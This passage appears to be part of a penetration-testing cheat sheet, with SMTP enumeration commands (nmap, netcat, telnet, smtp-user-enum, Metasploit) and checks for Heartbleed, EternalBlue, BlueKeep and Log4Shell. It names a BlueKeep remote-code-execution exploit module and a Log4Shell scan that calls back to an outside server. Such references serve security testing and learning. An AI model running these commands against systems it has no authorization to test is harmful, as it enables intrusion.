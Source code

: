 ```bash

set CMD whoami
exploit
```

### SMTP

#### Nmap

```bash
sudo nmap -p 25 -sV -sC -O <TARGET_IP>

nmap -sV -script banner <TARGET_IP>
```

```bash
nc <TARGET_IP> 25
telnet <TARGET_IP> 25

# TELNET client - check supported capabilities
HELO attacker.xyz
EHLO attacker.xyz
```

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t <TARGET_IP>
```

#### Metasploit

```bash
# METASPLOIT
service postgresql start && msfconsole -q

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/smtp/smtp_enum
```

## Vulnerability Assessment

```bash
# HEARTBLEED
nmap -sV --script ssl-enum-ciphers -p <SECURED_PORT> <TARGET>
nmap -sV --script ssl-heartbleed -p 443 <TARGET_IP>

# ETERNALBLUE
nmap --script smb-vuln-ms17-010 -p 445 <TARGET_IP>

# BLUEKEEP
msfconsole
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
RECUERDA USAR set target SI TE DA ERROR AL EXPLOIT

# LOG4J
nmap --script log4shell.nse --script-args log4shell.callback-server=<CALLBACK_SERVER_IP>:1389 -p 8080 <TARGET_IP>
```
